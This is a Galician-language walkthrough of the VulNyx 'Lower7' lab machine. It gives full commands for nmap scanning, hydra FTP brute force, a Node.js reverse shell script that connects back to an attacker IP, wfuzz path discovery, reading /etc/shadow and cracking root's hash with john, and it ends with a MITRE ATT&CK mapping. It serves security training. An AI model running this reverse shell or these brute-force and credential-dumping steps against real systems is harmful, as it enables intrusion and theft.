

Doc vulnyx lower7
A máquina Lower7 é moi interesante porque...
- Cabeceira FTP que revela nome de usuario
- Ataque de forza bruta FTP con hydra
- Subida de reverse shell Node.js mediante FTP
- Enumeración de ruta con wfuzz para localizar o ficheiro subido
- Usuario pertence ao grupo shadow pode ler /etc/shadow
- Cracking do hash de root con john
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Lower7 -R # TTL ≃ 64 ⇒ GNU/Linux, TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Lower7 # 21,3000
Fase 2 — Análise
# Porto 21 → FTP
# Porto 3000 → Aplicación Node.js
# Conexión FTP para análise de cabeceira
ftp IP_VulNyx_Lower7
# Na cabeceira de resposta aparece o usuario: [usuario]
Fase 3 — Explotación
# Ataque de forza bruta FTP ao usuario [usuario]
hydra -l [usuario] -P /usr/share/wordlists/rockyou.txt ftp://IP_VulNyx_Lower7 -F -V -t 64
# Contrasinal atopada: [contrasinal]
# Preparación de reverse shell Node.js
# Referencia: https://www.revshells.com/ → Node.js #2
cat > shell.js << 'EOF'
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("sh", []);
var client = new net.Socket();
client.connect(4444, "IP_Atacante", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application from crashing
})();
EOF
# Subida da reverse shell mediante FTP
ftp [usuario]@IP_VulNyx_Lower7
# Password: [contrasinal]
ftp> put shell.js
ftp> quit
# Enumeración da ruta onde se subiu o ficheiro
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://IP_VulNyx_Lower7:3000/FUZZ.js
# Descubrimos: http://IP_VulNyx_Lower7:3000/shell.js
# Preparamos listener no atacante
nc -nlvp 4444
# Execución da reverse shell
firefox http://IP_VulNyx_Lower7:3000/shell.js &
# ⇒ Conseguimos reverse shell como usuario [usuario] (flag user.txt)
Fase 4 — Post‑explotación
# Verificación de membresía de grupos
id
# Detectamos que [usuario] pertence ao grupo shadow
# Lectura de /etc/shadow
cat /etc/shadow
# Extraemos o hash de root
# Gardamos o hash nun ficheiro
echo "root:[hash]" > hash.txt
# Cracking do hash con john
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt
# Contrasinal de root atopada
# Cambio a usuario root
su -
# Contrasinal: [atopada con john]
# ⇒ Conseguimos consola de root
# Verificación
whoami # root
cd /root
cat root.txt # ⇒ Flag de root conseguida
Correspondencia de fases → MITRE ATT&CK — VulNyx: Lower7
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| 2. Análise | Identificación de usuario mediante cabeceira FTP | User enumeration via FTP banner | T1087 — Account Discovery T1592 — Gather Victim Host Information |
CWE-200 — Information Exposure |
| 3. Explotación | Ataque de forza bruta FTP | Brute-force de credenciais | T1110.001 — Brute Force: Password Guessing T1071.002 — Application Layer Protocol: File Transfer Protocols |
CWE-521 — Weak Password Requirements; CWE-307 — Improper Restriction of Excessive Authentication Attempts |
| Subida de reverse shell Node.js mediante FTP | File upload via FTP | T1105 — Ingress Tool Transfer T1505.003 — Server Software Component: Web Shell |
CWE-434 — Unrestricted Upload of File with Dangerous Type | |
| Enumeración de ruta con wfuzz | Web fuzzing / directory discovery | T1083 — File and Directory Discovery T1592 — Gather Victim Host Information |
CWE-548 — Exposure of Information Through Directory Listing | |
| 4. Post-explotación | Descubrimento de membresía no grupo shadow | Privilege discovery | T1069.001 — Permission Groups Discovery: Local Groups T1083 — File and Directory Discovery |
CWE-732 — Incorrect Permission Assignment for Critical Resource |
| Lectura de /etc/shadow e extracción de hash de root | Credential dumping | T1003.008 — OS Credential Dumping: /etc/passwd and /etc/shadow T1552.001 — Unsecured Credentials: Credentials In Files |
CWE-732 — Incorrect Permission Assignment; CWE-522 — Insufficiently Protected Credentials | |
| Cracking de hash con john e cambio a root | Password cracking / privilege escalation | T1110.002 — Brute Force: Password Cracking T1078.003 — Valid Accounts: Local Accounts |
CWE-521 — Weak Password Requirements; CWE-269 — Improper Privilege Management |